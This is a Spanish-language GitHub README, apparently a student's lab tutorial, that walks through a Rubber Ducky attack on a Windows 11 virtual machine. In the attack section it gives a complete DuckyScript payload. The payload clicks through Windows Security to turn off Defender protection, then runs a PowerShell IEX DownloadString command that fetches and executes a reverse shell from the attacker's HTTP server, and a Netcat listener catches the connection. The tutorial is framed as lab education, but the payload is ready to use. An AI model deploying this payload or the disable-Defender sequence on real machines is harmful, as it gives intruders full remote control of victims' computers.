


# Reverse Shell_Rubber Ducky

*Fecha de publicación: 30/12/2025*

> [!NOTE]
> **Iker Marín López (IML15)**
>
> Estudiante de Ingeniería de la Ciberseguridad (Universidad Rey Juan Carlos)
>
> **Links:** 🔗 [LinkedIn](https://www.linkedin.com/in/iker-marin-lopez-90791b379/) | 🐱 [GitHub](https://github.com/IML15) | 📥 [Telegram](https://t.me/hueco44)


Este repositorio irá dedicado a enseñar un payload para un Rubber Ducky cualquiera con el que comprometeremos la seguridad de un ordenador Windows11 y ejecutaremos una Reverse Shell.


> [!WARNING]
> **ADVERTENCIA:** Este documento ha sido realizado con fines exclusivamente educativos en un entorno controlado. El autor no se hace responsable del mal uso de la información aquí expuesta.


- **Sugerencia**: si no se dispone de un Rubber Ducky, también podríais desactivar el Windows defender manualmente siguiendo los pasos del [payload](#payload) (adjuntado más adelante) y probar el comando que ejecuta la Reverse Shell como práctica (así podrías verificar el funcionamiento de la Reverse Shell y estudiar el mismo).

## 1. Preparación de las máquinas (Atacante y Víctima)

Crearemos dos máquinas en **VMware** (en nuestro caso una Kali-Linux [atacante] y una máquina Windows11 “25H2” [víctima]) y las configuraremos de modo que las máquinas compartan la misma red en uno de sus adaptadores red (este segundo adaptador lo crearemos antes de iniciar las máquinas). En mi caso, he creado una red llamada “Red InternaIML15” que será la que usen ambas máquinas y que además será de uso privado para el host (nosotros). 

**Si ya sabes como hacer este paso de conectar las máquinas a la misma red, pasa directamente al siguiente paso ([siguiente paso](#siguiente-paso))** 

<br>



<br>


<br>


<br>


<br>


<br>


<br>


<br>

<a id="siguiente-paso"></a>

## 2. Preparación del entorno

Una vez preparadas e instaladas las dos máquinas, empezaremos a crear los siguientes preparativos. Con Python, levantaremos un servidor en un puerto que nosotros elijamos en un directorio que escojamos en la máquina atacante.

Esto lo haremos porque en ese directorio donde lo levantemos, lo usaremos como ventana para poder ejecutar la Reverse Shell. Mediante un comando IEX, ejecutaremos un código almacenado en una página ***http*** (que será nuestro código malicioso → que usaremos para ejecutar la Reverse Shell).

- Documentación interesante 👀 —> [https://stackoverflow.com/questions/68362499/run-powershell-script-from-webclient-downloadstring-on-the-command-prompt](https://stackoverflow.com/questions/68362499/run-powershell-script-from-webclient-downloadstring-on-the-command-prompt)


### ***#IMPORTANTE ⚠️***

El código generado por [revershells.com](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwjf9oXLxt6QAxUtSPEDHStUI_kQFnoECAwQAQ&url=https%3A%2F%2Frevshells.com%2F&usg=AOvVaw2kSgZf8n__rsePim87CfRv&opi=89978449) deberemos configurarlo con la IP de nuestra máquina atacante. Para saber nuestra IP (en mi caso que uso Kali-Linux) usaremos el comando **“i*fconfig”***

```bash
ifconfig
```

Adjunto imagen del comando **ifconfig** en mi máquina Kali-Linux:


<br>

En el directorio que creemos para ejecutar el Reverse Shell, crearemos un archivo <html> en el que pegaremos el código generado por [revershells.com](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwjf9oXLxt6QAxUtSPEDHStUI_kQFnoECAwQAQ&url=https%3A%2F%2Frevshells.com%2F&usg=AOvVaw2kSgZf8n__rsePim87CfRv&opi=89978449) (código que se configura en esa misma página web) de tal forma:

<br>


<br>

### ***#IMPORTANTE ⚠️***

Es importante saber que el puerto que use nuestra Revere Shell debe estar vacío, porque si dentro de ese puerto hay un servicio corriendo, no se va a poder ejecutar esta práctica correctamente y tendremos que reconfigurar el ataque. 

 [revershells.com](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwjf9oXLxt6QAxUtSPEDHStUI_kQFnoECAwQAQ&url=https%3A%2F%2Frevshells.com%2F&usg=AOvVaw2kSgZf8n__rsePim87CfRv&opi=89978449)

<br>


<br>


<br>

Una vez con esto listo, levantaremos el servidor en la carpeta creada (el archivo <html> debe estar en esta carpeta) ejecutando el comando:

```python
python3 -m http.server 8080
```

Como podéis observar, el servidor que levantaremos (ejecutando el comando en el directorio donde tengamos nuestro archivo prueba.html) utilizará el puerto indicado en el mismo comando (en nuestro caso el <8080>). Es importante tener en cuenta que este puerto usado debe encontrarse sin ningún servicio corriendo en él, al igual que nos pasaba con el puerto configurado para ejecutar la Reverse Shell. Por tanto, el puerto en el que levantemos el servidor y en el que levantemos la Reverse Shell **NO PUEDEN SER EL MISMO.**

Una vez ejecutado el comando, deberá aparecer algo tal que así:

<br>



<br>

Como comprobación de que esto funciona, podemos buscar la página http donde está levantado nuestro servidor (donde deberemos encontrar nuestro directorio con su correspondiente archivo html dentro [en nuestro caso prueba.html]) :

<br>


Si entramos en el archivo prueba.html :


<br>

Además, nuestra pantalla donde habremos levantado el servidor deberá mostrarse así :


<br>

### ***#IMPORTANTE ⚠️***

No cerrar **NUNCA** esta pestaña de la terminal durante el resto del proceso puesto que si lo hacemos, cerraremos el servidor levantado, y no podremos ejecutar el ataque. Para los siguientes pasos, abriremos una pestaña de terminal nueva (mientras que esta la dejamos minimizada):

<br>


<br>


<br>


<br>

Por último, antes de iniciar el ataque, utilizaremos ***Netcat*** para escuchar en el puerto programado en código generado por [revershells.com](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwjf9oXLxt6QAxUtSPEDHStUI_kQFnoECAwQAQ&url=https%3A%2F%2Frevshells.com%2F&usg=AOvVaw2kSgZf8n__rsePim87CfRv&opi=89978449) (en nuestro caso el 3000). El comando que utilizaremos para usar Netcat nos lo proporcionará también la misma página. 

<br>


<br>

Al igual que cuando levantamos el servidor, dejaremos esta pestaña donde ejecutamos este comando abierta, de la misma forma: 


<br>

## 3. Ataque

Una vez todos los preparativos puestos en marcha, iniciaremos la fase de ataque. Mediante un dispositivo que funcione como un Rubber Ducky, ejecutaremos la desactivación del anti-virus Windows Defender y posteriormente ejecutaremos el comando IEX desde el que automáticamente se ejecutará el código almacenado en nuestro archivo html  (prueba.html), generado por [revershells.com](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwjf9oXLxt6QAxUtSPEDHStUI_kQFnoECAwQAQ&url=https%3A%2F%2Frevshells.com%2F&usg=AOvVaw2kSgZf8n__rsePim87CfRv&opi=89978449), con el que se generará la Reverse Shell y con la que tendremos acceso completo al sistema atacado. 

<a id="payload"></a>

Nuestro payload está programado de la siguiente forma:

```python
REM TITLE: Disable Windows Defender + Reverse Shell
REM AUTHOR: IML15
REM CO-AUTHOR: Bonapona 
REM DESCRIPTION: Disable Windows Defender, build a Reverse Shell

DELAY 1000
INJECT_MOD
GUI
DELAY 1000
STRING Windows Security
DELAY 1000
ENTER
DELAY 4000
ENTER
DELAY 2000
TAB
TAB
TAB
TAB
ENTER
DELAY 2000
SPACE
DELAY 2000
ALT s
DELAY 2000
TAB
TAB
TAB
SPACE
DELAY 2000
TAB
SPACE
DELAY 2000
TAB
TAB
SPACE
DELAY 2000
GUI r
DELAY 500
STRING powershell
ENTER
DELAY 3000
STRING IEX (New-Object Net.WebClient).DownloadString('http://<IP_MAQUINA_ATACANTE>:8080/<TU_ARCHIVO>.html')
ENTER
```

Para desarrollarlo hemos usado la página [Hak5 Payload Studio](https://payloadstudio.hak5.org/community). Hay una versión Pro de pago, pero la  *Version 1.3.1 - Community Edition* es gratis y de uso ilimitado que es en la que hemos desarrollado el payload.

Una vez iniciada la máquina Windows, introduciremos el Rubber Ducky con nuestro payload instalado y automáticamente deberá ejecutarse el código , creando así nuestra Reverse Shell. 

Si el código del Rubber Ducky (nuestro payload) se ejecuta con éxito, deberá aparecer como último proceso del payload la ejecución del comando IEX, quedando de la siguiente manera:

<br>


<br>

Una vez que veamos esto en la Powershell del equipo con Windows instalado, habremos conseguido ejecutar el payload con éxito y habremos creado la Reverse Shell. En la pestaña donde habíamos usado Netcat (comando: nc -lvnp 3000) ahora tendremos acceso al control remoto del ordenador víctima desde nuestro ordenador atacante. 

```bash
nc -lvnp <PUERTO>
```

<br>


<br>

Desde ahí, podremos verificar el buen funcionamiento del acceso remoto al ordenador víctima. Por ejemplo creando un archivo en el escritorio (en nuestro caso un .txt):

Para ello usaremos los siguientes comandos

  

```powershell
cd (Movilidad entre directorios)

pwd (Ver la ruta de directorios en la que nos encontramos)

ni (Creación de archivo [incluir el tipo de extensión del archivo en el comando])

ls (Ver los directorios / archivos dentro de un directorio)
```

<br>


<br>

Una vez creado el archivo dentro de el directorio que deseemos, podremos verificarlo en la máquina víctima manualmente. Habremos completado el ataque con éxito.

<br>


<br>

## Documentación

> [!NOTE]
> **HackTricks**  
> Guía de referencia para técnicas, payloads y cheat sheets de seguridad.  
> https://book.hacktricks.wiki/en/index.html

> [!NOTE]
> **Web Application Security, Testing, & Scanning - PortSwigger**  
> Recursos y herramientas para seguridad en aplicaciones web, testing y scanning.  
> https://portswigger.net/

> [!NOTE]
> **PayloadsAllTheThings - Reverse Shell Cheatsheet**  
> Colección de payloads y referencias para reverse shells y pentesting.  
> https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

> [!NOTE]
> **Online - Reverse Shell Generator**  
> Generador online de reverse shells con opciones como Base64 y MSFVenom.  
> https://www.revshells.com/

> [!NOTE]
> **Hak5 - Product Documentation**  
> Documentación oficial para productos y herramientas Hak5.  
> https://docs.hak5.org/

> [!NOTE]
> **Reverse Shell Cheat Sheet**  
> Hoja de referencia rápida con ejemplos de shells reversas.  
> https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
